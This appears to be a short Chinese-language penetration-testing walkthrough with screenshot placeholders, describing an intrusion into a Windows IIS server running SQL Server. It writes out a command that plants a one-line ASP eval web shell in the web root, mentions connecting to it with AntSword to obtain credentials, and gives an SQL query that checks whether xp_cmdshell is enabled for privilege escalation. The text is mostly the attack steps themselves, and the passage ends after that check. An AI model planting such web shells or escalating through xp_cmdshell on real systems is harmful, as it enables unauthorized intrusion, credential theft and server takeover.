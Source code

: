 访问页面报错获得web路径c:\inetpub\wwwroot\info.aspx.cs

​![image](assets/image-20241029160019-g35yx0n.png)

尝试写入一句话木马,蚁剑连接获取账密

```bash
echo "<%eval request("777")%>" >c:\inetpub\wwwroot\test.asp
```

​![image](assets/image-20241029160151-jj47snw.png)

尝试xp_cmdshell提权

	查看是否开启xp_cmdshell，返回值为1开启

```bash
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
```

​![image](assets/image-20241029160324-pvnqti1.png)​
